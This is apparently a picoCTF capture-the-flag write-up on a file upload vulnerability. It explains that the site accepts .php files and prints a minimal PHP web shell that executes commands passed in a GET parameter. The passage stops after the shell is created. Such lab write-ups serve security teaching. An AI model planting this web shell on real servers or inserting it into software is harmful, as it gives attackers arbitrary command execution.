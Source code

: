 ### 📌 Challenge Description

> The challenge presents a **file upload vulnerability** on a web application. Our goal is to exploit this vulnerability to gain access to sensitive data or execute arbitrary code on the server to retrieve the flag.

> Link: http://standard-pizzas.picoctf.net:54419/

### 🧠 Understanding the Challenge

This challenge revolves around an insecure file upload feature that allows an attacker to upload any type of file. The goal is to upload a PHP file and use it to execute commands on the server.

### 🛠️ Step-by-Step Solution

#### 1. Open the Website

The website provides a file upload form that accepts all file types — including `.php`.

![Initial Site](images/2nd1.png)




#### 2. Create a Malicious PHP File

We create a simple PHP web shell that takes a command from a GET parameter and executes it.

```php
<?php
    echo shell_exec($_GET['cmd']);
?>
```
